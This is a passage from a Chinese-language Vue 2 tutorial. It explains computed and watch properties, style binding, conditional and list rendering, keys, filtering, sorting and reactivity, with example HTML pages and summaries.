    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            姓: <input type="text" v-model="firstName"><br/><br/>
            名：<input type="text" v-model="lastName"><br/><br/>
            <!-- 此处虽然有多个fullName，但get只被调用一次，因为当第一次读取fullName时会保存缓存 -->
            姓名：<span>{{fullName}}</span> <br/><br/>
            姓名：<span>{{fullName}}</span> <br/><br/>
            姓名：<span>{{fullName}}</span> <br/><br/>
            姓名：<span>{{fullName}}</span>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                        el: '#root',
                        data: {
                            firstName: '张',
                            lastName: '三'
                        },
                        computed: {
                            fullName: {
                                // get的作用是：当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
                                /* 
                                get调用的情况：
                                    1.初次读取fullName时，get被调用；
                                    2.所依赖的数据发生变化时。
                                */
                                get() {
                                    console.log('get被调用了');
                                    // 此处的this也是vm对象
                                    return this.firstName + '-' + this.lastName;
                                },
                                //set什么时候调用? 当fullName被修改时。
                                set(value){
                                    console.log('set',value)
                                    const arr = value.split('-')
                                    this.firstName = arr[0]
                                    this.lastName = arr[1]
                                }
                            }
                        }
                })
        </script>
</body>
</html>
```

**总结：**

​	计算属性：

​          1.定义：要用的属性不存在，要通过已有属性计算得来。

​          2.原理：底层借助了Objcet.defineproperty方法提供的getter和setter。

​          3.get函数什么时候执行？

​                (1).初次读取时会执行一次。

​                (2).当依赖的数据发生改变时会被再次调用。

​          4.优势：与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。

​          5.备注：

​              1.计算属性最终会出现在vm上，直接读取使用即可。

​              2.如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。


- **计算属性的简写形式**

​	以上方式是通过`get()`和`set()`两个方法来实现读取和修改的，但一般情况下，我们用到读取的情况比较多，所以`set()`方法用到的情况就要少一些，就可以省略set方法，并且将`fullName()`作为一个函数对象来获取，这种方式在写法上要灵活和简便一些，因为**计算属性最终会出现在vm上，直接读取即可使用**。vue中简写成如下形式，其它不变：

```html
new Vue({
    el:'#root', 
    data:{ 
        firstName:'张',
        lastName:'三'
    },
    computed:{
    	fullName(){
		    return this.firstName + '-' + this.lastName
    	}
    }
})
```

**注意：只考虑读取，不考虑修改时才能使用简写形式。**


### 1.11.监视属性

​	天气案例：实现页面天气`凉爽`和`炎热`的切换，并且在控制台显示`现在`和`原来`的天气情况。我们可以通过Vue的监视属性来实现这一功能。vm对象的`$watch()`或`watch`配置来监视指定的属性，当属性发生变化时，回调函数自动执行，在函数内部进行计算。



```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- <h3>今天天气很{{isHot ? '凉爽' : '炎热'}}</h3> -->
            <h3>今天天气很{{info}}, {{x}}</h3>
            <button @click="changeWeather">切换</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            isHot: true,
                            x: 1
                        },
                        computed: {
                            info() {
                                return this.isHot ? '凉爽' : '炎热';
                            }
                        },
                        methods: {
                            changeWeather() {
                                this.isHot = !this.isHot;
                                this.x++
                            }
                        },
                        
                        
                })
        </script>
</body>
</html>
```


#### 1.11.1.监视属性的基本用法

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- <h3>今天天气很{{isHot ? '凉爽' : '炎热'}}</h3> -->
            <h3>今天天气很{{info}}, {{x}}</h3>
            <button @click="changeWeather">切换</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            isHot: true,
                            x: 1
                        },
                        computed: {
                            info() {
                                return this.isHot ? '凉爽' : '炎热';
                            }
                        },
                        methods: {
                            changeWeather() {
                                this.isHot = !this.isHot;
                                this.x++
                            }
                        },
                        // watch: {
                        //     // isHot就是要监视的属性
                        //     isHot: {
                        //         // immediate表示立即执行，默认为false
                        //         immediate:true, //初始化时让handler调用一下
                        //         // handler()函数是在isHot属性发生变化时执行
                        //         // newValue,oldValue表示修改前后的值
                        //         handler(newValue,oldValue) {
                        //             console.log('isHot发生了改变',newValue,oldValue);
                        //         }
                        //     }
                        // }
                        
                })
                // watch监听方式还可以用以下vm/.$watch()
                // 两个参数分别为要监视的对象和配置对象
                vm.$watch('isHot',{
                    immediate:true, //初始化时让handler调用一下
                    handler(newValue,oldValue) {
                        console.log('isHot发生了改变',newValue,oldValue);
                    }
                })
        </script>
</body>
</html>
```

**总结：**

```text
监视属性watch：
   1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作
   2.监视的属性必须存在，才能进行监视！！
   3.监视的两种写法：
         (1).new Vue时传入watch配置
         (2).通过vm.$watch监视
```

**简写:**

​	当使用`watch`时`isHot`属性内部只有`handler`时，可以简写成以下形式：

```html
1.使用watch时：
isHot(newValue,oldValue) {
     console.log('isHot发生了改变',newValue,oldValue);
},

2.使用$watch()时：
vm.$watch('isHot',function(newValue,oldValue) {
                        console.log('isHot发生了改变',newValue,oldValue);
                    })
```


#### 1.11.2.深度监视

​	Vue中的watch默认不监视对象内部值得改变（只能监视一层），而要想监视对象内部值（多层）的变化，则需要用到深度监视。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- <h3>今天天气很{{isHot ? '凉爽' : '炎热'}}</h3> -->
            <h3>今天天气很{{info}}</h3>
            <button @click="changeWeather">切换</button>
            <hr>
            <!-- 需求：通过numbers属性任何一个值的改变，输出语句 -->
            <h3>a的值是：{{numbers.a}}</h3>
            <button @click="numbers.a++">点我让a加1</button>
            
            <h3>b的值是：{{numbers.b}}</h3>
            <button @click="numbers.b++">点我让b加1</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            isHot: true,
                            numbers: {
                                a: 1,
                                b: 1
                            }
                        },
                        computed: {
                            info() {
                                return this.isHot ? '凉爽' : '炎热';
                            }
                        },
                        methods: {
                            changeWeather() {
                                this.isHot = !this.isHot;
                                this.x++
                            }
                        },
                        watch: {
                            // isHot就是要监视的属性
                            isHot: {
                                // immediate表示立即执行，默认为false
                                immediate:true, //初始化时让handler调用一下
                                // handler()函数是在isHot属性发生变化时执行
                                // newValue,oldValue表示修改前后的值
                                handler(newValue,oldValue) {
                                    console.log('isHot发生了改变',newValue,oldValue);
                                }
                            },
                            // 监测多级结构中某个属性的用法
                            // 'numbers.a': {
                            //     handler() {
                            //         console.log('a的值改变了。');
                            //     }
                            // },
                            // 监测多级结构中所有属性的用法
                            numbers: {
                                // deep:true表示开启深度监测，默认为false
                                deep: true,
                                handler() {
                                    console.log('numbers的值改变了！');
                                }
                            }
                        }
                        
                })
                
        </script>
</body>
</html>
```

**总结：**

```
深度监视：
      (1).Vue中的watch默认不监测对象内部值的改变（一层）。
      (2).配置deep:true可以监测对象内部值改变（多层）。
备注：
      (1).Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！
      (2).使用watch时根据数据的具体结构，决定是否采用深度监视。
```


#### 1.11.3.watch  VS  computed

​	计算属性和监听属性的对比可根据官网`https://v2.cn.vuejs.org/v2/guide/computed.html#%E8%AE%A1%E7%AE%97%E5%B1%9E%E6%80%A7-vs-%E4%BE%A6%E5%90%AC%E5%B1%9E%E6%80%A7`的对比进行阅读，我们把之前用**计算属性做的姓名案例**改成监听属性：

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            姓: <input type="text" v-model="firstName"><br/><br/>
            名：<input type="text" v-model="lastName"><br/><br/>
            <!-- 此处虽然有多个fullName，但get只被调用一次，因为当第一次读取fullName时会保存缓存 -->
            姓名：<span>{{fullName}}</span> 
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                        el: '#root',
                        data: {
                            firstName: '张',
                            lastName: '三',
                            fullName: '张-三'
                        },
                        watch: {
                            firstName(newValue) {
                                /* 
                                    定时器：修改后等1秒钟再反馈到页面
                                    这是watch监听属性才可以完成的异步操作，
                                    计算属性computed无法完成进行异步操作
                                */
                                setTimeout(() => {
                                    this.fullName = newValue + '-' + this.lastName;
                                }, 1000);
                            },
                            lastName(newValue) {
                                this.fullName = this.firstName+ '-' + newValue ;
                            }
                        }
                })
        </script>
</body>
</html>
```


**总结：**

```
computed和watch之间的区别：
      1.computed能完成的功能，watch都可以完成。
      2.watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作。
两个重要的小原则：
         1.所有被Vue管理的函数，最好写成普通函数，不写成箭头函数，这样this的指向才是vm 或 组件实例对象。
         2.所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），最好写成箭头函数，
           这样this的指向才是vm 或 组件实例对象。
```


### 1.12.绑定样式

​	在vue中要绑定元素的样式，可以使用两种方式：**class绑定**和**style绑定**。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
    <style>
        .basic{
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }
        
        .happy{
            border: 4px solid red;;
            background-color: rgba(255, 255, 0, 0.644);
            /* 背景渐变，30度渐变轴，从yellow变到yellow */
            background: linear-gradient(30deg,yellow,pink,orange,yellow);
        }
        .sad{
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }
        .normal{
            background-color: skyblue;
        }

        .z1{
            background-color: yellowgreen;
        }
        .z2{
            font-size: 30px;
            text-shadow:2px 2px 10px red;
        }
        .z3{
            border-radius: 20px;
        }
    </style>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- 需求1：基础样式basic和normal，点击切换成happy属性 
                 绑定class样式(字符串写法)，通过 :class='xx',把xx配置到data属性中
                 使用场景：样式类名不确定，需要动态指定
            -->

            <h3 class="basic" :class="mood" @click='changeMood01'>{{name}}</h3><br><br>
            
            <!-- 需求2：基础样式basic，z1,z2,z3两两随机组合 
                 绑定class样式(数组写法)，通过添加数组属性进行设置
                 适用场景：要绑定的样式个数不确定、名字也不确定
            -->
            <h3 class="basic" :class="classArr">{{name}}</h3><br><br>

            <!-- 需求3基础样式basic，z1和z2任意组合，也可以全有，也可以全没有
                 绑定class样式(对象写法)，将确定的类名配置到对象中
                 使用场景：要绑定的样式个数确定、名字确定，但要动态决定用不用
            -->
            <h3 class="basic" :class="classObj">{{name}}</h3><br><br>

            <!-- 
                需求4：给字体添加大小属性
                绑定style样式(对象写法)
                css样式再vue中除第以个单词外，其他单词首字母大写
             -->
            <h3 class="basic" :class="styleObj01">{{name}}</h3><br><br>
            
            <!-- 绑定style样式(数组写法):数组里嵌套对象写法 -->
            <h3 class="basic" :class="[styleObj01, styleObj02]">{{name}}</h3><br><br>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            name: '四川城市职业学院',
                            mood: 'normal',
                            classArr: ['z1', 'z2', 'z3'],
                            classObj: {
                                z1: false,
                                z2: false
                            },
                            styleObj01: {
                                fontSize: '50px',
                                color: 'red'
                            },
                            styleObj01: {
                                backgroundColor: 'blue'
                            }
                        },
                        methods: {
                            changeMood01() {
                                // document.getElementById('demo').className = 'basic happy';
                                // this.mood = 'happy';
                                // 以上方式不够灵活，如果需要点击随机切换normal,happy,sad，则需要用到Math
                                const arr = ['normal', 'happy', 'sad'];
                                // Math.random()随机生成0-1(不包含1),乘以3再向下取整 
                                const index = Math.floor(Math.random() * 3);
                                this.mood = arr[index];
                            },
                        },
                        
                })
        </script>
</body>
</html>
```


**总结：**

```
绑定样式：
      1. class样式
               写法:class="xxx" xxx可以是字符串、对象、数组。
                     字符串写法适用于：类名不确定，要动态获取。
                     对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
                     数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。
      2. style样式
               :style="{fontSize: xxx}"其中xxx是动态值。
               :style="[a,b]"其中a、b是样式对象。
```


### 1.13.条件渲染

​	在vue中的条件判断`v-if`和我们之前学习原生JavaScript的`if`语句有很大区别，但仍有单分支，多分支。除此之外，vue也可以使用`v-show`来进行条件判断。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>当前n的值是：{{n}}</h3>
            <button @click="n++">点我n加1</button>
            <!-- 
                需求：让h3切换显示或隐藏，可用指令v-show
                v-show可做条件渲染，值可以时true,false或表达式
                v-show底层通过display属性操作
             -->
            <!-- <h3 v-show="false">欢迎来到{{name}}</h3> -->
            <!-- <h3 v-show="1 === 2">欢迎来到{{name}}</h3> -->

            <!-- v-if指令底层通过注释代码结构完成 -->
            <h3 v-if="false">欢迎来到{{name}}</h3>
            <h3 v-if="1 === 1">欢迎来到{{name}}</h3>

            <!-- 不同n的值显示不同的框架
                v-if,v-else-if,v-else是一组指令，中间
                不允许打断（如下面的34行），用法和js中的if-else if- else
                相同
                需要注意的是v-else指令不添加条件
            -->
            <div v-if="n === 1">Angular</div>
            <div v-else-if="n === 2">React</div>
            <!-- <div>打断</div> -->
            <div v-else-if="n === 3">Vue</div>
            <div v-else>Other JS Framework</div>

            <!-- 
                template表示模板，与div包裹不同，div仍在页面保留结构
                而template不影响页面原有结构，可和v-if使用，不能和v-show使用
             -->
            <template v-if="n === 1">
                <h3 >成都</h3>
                <h3 >重庆</h3>
                <h3 >西安</h3>
            </template>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            name: '四川城市职业学院',
                            n: 0
                        }
                        
                })
        </script>
</body>
</html>
```

**总结：**

```text
条件渲染：
         1.v-if
                  写法：
                        (1).v-if="表达式" 
                        (2).v-else-if="表达式"
                        (3).v-else="表达式"
                  适用于：切换频率较低的场景。
                  特点：不展示的DOM元素直接被移除。
                  注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。

         2.v-show
                  写法：v-show="表达式"
                  适用于：切换频率较高的场景。
                  特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉
            
         3.备注：使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。
```


### 1.14.列表渲染

#### 1.14.1.基本列表

需求：要实现的页面效果:



要实现以上页面效果，正常情况下需要三对`<li>`标签，但在vue中，我们可以直接使用`v-for`指令遍历出`data`中需要的数据就可以了，和`v-for`指令配合使用的是`key`属性，`key`属性表示唯一的标识。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- 1.v-for遍历数组 -->
            <h3>人员列表</h3>
            <ul>
                <!-- v-for指令表示遍历，必须和属性key配合使用
                     :key表示让每个li都有唯一一个表示 -->
                <!-- <li v-for="p in persons" :key="p.id"> -->
                <!-- 以上方式还可以写成如下，因v-for可以遍历多个数据 -->
                <li v-for="(p,index) in persons" :key="index">
                    {{p.name}}-{{p.age}}
                </li>
            </ul>

            <!-- 2.v-for遍历对象 -->
            <h3>房屋信息</h3>
            <ul>
                <li v-for="(val, k) in house" :key="k">
                    {{k}}--{{val}}
                </li>
            </ul>

            <!-- 3.v-for遍历字符串 -->
            <h3>字符串信息</h3>
            <ul>
                <li v-for="(char, i) in str" :key="i">
                    {{i}}-{{char}}
                </li>
            </ul>

            <!-- 4.v-for遍历指定次数 -->
            <h3>指定次数</h3>
            <ul>
                <li v-for="(number, index) in 5" :key="index">
                    {{index}}-{{number}}
                </li>
            </ul>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            persons: [
                                {id:'001',name:'张三',age:18},
                                {id:'002',name:'李四',age:19},
                                {id:'003',name:'王五',age:20}
                            ],
                            house: {
                                name: '汤臣一品',
                                price: '100000000元',
                                size: '500平'
                            },
                            str: 'hello vue'
                        }
                        
                })
        </script>
</body>
</html>
```

**总结：**

```text
v-for指令:
      1.用于展示列表数据
      2.语法：v-for="(item, index) in xxx" :key="yyy"
      3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）
```


#### 1.14.2.key的作用与原理

关于`key`属性的官方API介绍可以参照https://v2.cn.vuejs.org/v2/api/#key

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>vue使用模板</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 遍历数组 -->
			<h3>人员列表（遍历数组）</h3>
			<button @click.once="add">添加一个老6</button>
			<ul>
				<li v-for="(p,index) of persons" :key="index">
                <!-- <li v-for="(p,index) of persons" :key="p.id"> -->
					{{p.name}}-{{p.age}}
					<input type="text">
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'张三',age:18},
						{id:'002',name:'李四',age:19},
						{id:'003',name:'王五',age:20}
					]
				},
				methods: {
					add(){
						const p = {id:'004',name:'老6',age:30}
						this.persons.unshift(p)
					}
				},
			})
		</script>
</html>
```


**原理：**





**总结：**

```
面试题：react、vue中的key有什么作用？（key的内部原理）
      
      1. 虚拟DOM中key的作用：
                  key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 
                  随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
                  
      2.对比规则：
               (1).旧虚拟DOM中找到了与新虚拟DOM相同的key：
                        ①.若虚拟DOM中内容没变, 直接使用之前的真实DOM！
                        ②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。

               (2).旧虚拟DOM中未找到与新虚拟DOM相同的key
                        创建新的真实DOM，随后渲染到到页面。
                        
      3. 用index作为key可能会引发的问题：
                     1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
                                 会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。

                     2. 如果结构中还包含输入类的DOM：
                                 会产生错误DOM更新 ==> 界面有问题。

      4. 开发中如何选择key?:
                     1.最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
                     2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，
                        使用index作为key是没有问题的。
```


#### 1.14.3.列表过滤

​	列表的过滤即对对象进行搜索，按照关键字进行过滤。场景：有如下人员名单，在输入框里输入关键字进行搜索，并将搜索到的和关键字相关的信息显示出来。




```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>人员列表</h3>
            <input type="text" placeholder="请输入名字" v-model="keyWord">
            <ul>
                <li v-for="(p,index) in filPersons" :key="index">
                    {{p.name}}-{{p.age}}-{{p.sex}}
                </li>
            </ul>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // watch实现方式
                // #region + #endredion可将注释内容折叠
                // #region
                // 创建Vue对象
                // new Vue({
                //         el: '#root',
                //         data: {
                //             keyWord:'',
                //             persons: [
                //                 {id:'001',name:'马冬梅',age:18,sex:'女'},
                //                 {id:'002',name:'周冬雨',age:19,sex:'女'},
                //                 {id:'003',name:'周杰伦',age:20,sex:'男'},
                //                 {id:'004',name:'林依伦',age:21,sex:'男'}
                //             ],
                //             filPersons: []
                //         },
                //         watch:{
                //             keyWord:{
                //                 // console.log('keyWord被更改了',val);
                //                 immediate:true,
                //                 // 拿到数组过滤filters
                //                 handler(val) {
                //                     this.filPersons = this.persons.filter((p) =>{
                //                     // 返回关键字匹配条件,indexOf返回下标或-1，-1为不包含
                //                         return p.name.indexOf(val) !== -1;
                //                 })
                                   
                //                 }
                //             }
                //         }
                        
                // })
                // #endregion
                // computed实现
                new Vue({
                        el: '#root',
                        data: {
                            keyWord:'',
                            persons: [
                                {id:'001',name:'马冬梅',age:18,sex:'女'},
                                {id:'002',name:'周冬雨',age:19,sex:'女'},
                                {id:'003',name:'周杰伦',age:20,sex:'男'},
                                {id:'004',name:'林依伦',age:21,sex:'男'}
                            ],
                        },
                        computed:{
                            filPersons() {
                                return this.persons.filter((p) => {
                                    return p.name.indexOf(this.keyWord) !== -1;
                                })
                            }
                        }
                })
        </script>
</body>
</html>
```


#### 1.14.4.列表排序

​	vue中列表的排序和数组的`sort()`方法一样，只不过需要现定义要实现何种排序的规则。以`1.14.3`中列表中年龄为例，我们实现`降序`，`升序`，`原顺序`的排序方式，实现图例如下：



```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>人员列表</h3>
            <input type="text" placeholder="请输入名字" v-model="keyWord">
            <button @click="sortType = 2">年龄升序</button>
            <button @click="sortType = 1">年龄降序</button>
            <button @click="sortType = 0">原顺序</button>
            <ul>
                <li v-for="(p,index) in filPersons" :key="p.id">
                    {{p.name}}-{{p.age}}-{{p.sex}}
                </li>
            </ul>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            keyWord:'',
                            // 定义排序规则：0为原顺序，1为降序，2为升序
                            sortType:0,
                            persons:[
                                {id:'001',name:'马冬梅',age:30,sex:'女'},
                                {id:'002',name:'周冬雨',age:19,sex:'女'},
                                {id:'003',name:'周杰伦',age:50,sex:'男'},
                                {id:'004',name:'林依伦',age:21,sex:'男'}
                            ]
                        },
                        computed:{
                            filPersons(){
                                // arr是返回过滤后的数组，用它进行判断
                                const arr =  this.persons.filter((p) => {
                                    return p.name.indexOf(this.keyWord) !== -1;
                                })
                                // 判断是否需要排序
                                if(this.sortType){
							        arr.sort((p1,p2)=>{
								        return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
							        })
						        }
						        return arr
                            }
                        }
                        
                })
        </script>
</body>
</html>
```


#### 1.14.5.vue数据监视的原理

​	要想了解vue监视数据的原理，我们先以下面的案例来进行演示：我们想要修改马冬梅的信息，在页面增加了修改按钮：

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>人员列表</h3>
            <button @click="updateMa">点击修改马冬梅信息</button>
            <ul>
                <li v-for="(p,index) in persons" :key="p.id">
                    {{p.name}}-{{p.age}}-{{p.sex}}
                </li>
            </ul>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                    el: '#root',
                        data: {
                            keyWord:'',
                            // 定义排序规则：0为原顺序，1为降序，2为升序
                            sortType:0,
                            persons:[
                                {id:'001',name:'马冬梅',age:30,sex:'女'},
                                {id:'002',name:'周冬雨',age:19,sex:'女'},
                                {id:'003',name:'周杰伦',age:50,sex:'男'},
                                {id:'004',name:'林依伦',age:21,sex:'男'}
                            ]
                        },
                        methods: {
                            updateMa() {
                                // 第一种方式：可行，但复杂
                                // this.persons[0].name = '马老师'
                                // this.persons[0].age = 23
                                // this.persons[0].sex = '男'
                                // 第二种方式：不可行，vue没有监视到
                                this.persons[0] = {id:'001',name:'马老师',age:23,sex:'男'}
                            }
                        },
                })
        </script>
</body>
</html>
```

​	我们可以看到第一种方式打开开发者工具，页面和结点都发生了变化，但第二种方式却没有实现：

- **第一种方式：**




- **第二种方式：**



​	



​	我们发现：当我们使用第一种方式去更改信息时是没有问题的，但是非常复杂。而第二种方式虽然在页面上没有显示更改成功，但我们可以通过控制台查看到是更改成功了的，并且重新打开一个窗口，先点击按钮，再打开开发者工具，也是发现结点已经修改。因为当我们点击按钮时，内存中的`persons[0]`的数据是更改了的，但vue可能没有监测到。这是为什么呢？我们通过以下两个案例，分别从`对象`和`数组`来究其原因。

##### 1.14.5.1.数据监视原理--对象

​	我们用以下案例来监视数据，会发现我们嵌套的`student`对象有`name`和`age`两个属性，而`age`又嵌套了两个值，并且`student`对象中还有一个`friend`对象。我们在控制台输出`vm._data`会发现每一层对象都有一个`get`和`set`，用来获取和设置对象的值，由此我们发现：**对象的数据监视原理是get()和set()**。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>学校名称：{{name}}</h3>
            <h3>学校地址：{{addr}}</h3>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                        el: '#root',
                        data: {
                            name:'城院',
                            addr:'成都',
                            student:{
					            name:'tom',
					            age:{
                                    rAge:40,
                                    sAge:29,
                                },
                                friends:[
                                    {name:'jerry',age:35}
                                ]
				            }
                        }  
                })
        </script>
</body>
</html>
```



##### 1.14.5.2.Vue.set()方法

​	https://v2.cn.vuejs.org/v2/api/#Vue-set

​	如果在Vue示例中已经配置好数据，后期如果想要再添加其他属性，这时就不再是响应式数据了。但Vue提供了一个API，即`Vue.set()`，它不仅可以完成属性和值的添加，还可以以响应式的方式进行添加。`set(target,key,val)`的三个参数分别代表：要`添加的对象`；`属性名`；`属性值`。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h2>学校信息</h2>
            <h3>学校名称：{{name}}</h3>
            <h3>学校地址：{{addr}}</h3>
            <h3>校长：{{leader}}</h3>
            <hr/>
            <h2>学生信息</h2>
            <button @click="addSex">添加一个性别属性，默认为男</button>
            <h3>学生姓名：{{student.name}}</h3>
            <h3>学生年龄：真实{{student.age.rAge}},对外{{student.age.sAge}}</h3>
            <h3 v-if="student.sex">学生性别：{{student.sex}}</h3>
            <h3>朋友们</h3>
            <ul>
                <li v-for="(f,index) in student.friends" :key="index">
                    {{f.name}}--{{f.age}}
                </li>
            </ul>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                        el: '#root',
                        data: {
                            name:'城院',
                            addr:'成都',
                            student:{
					            name:'tom',
					            age:{
                                    rAge:40,
                                    sAge:29,
                                },
                                // sex:'男',
                                friends:[
                                    {name:'jerry',age:35},
                                    {name:'tony',age:36}
                                ]
				            }
                          },
                          methods:{
                                addSex(){
                                    /* 
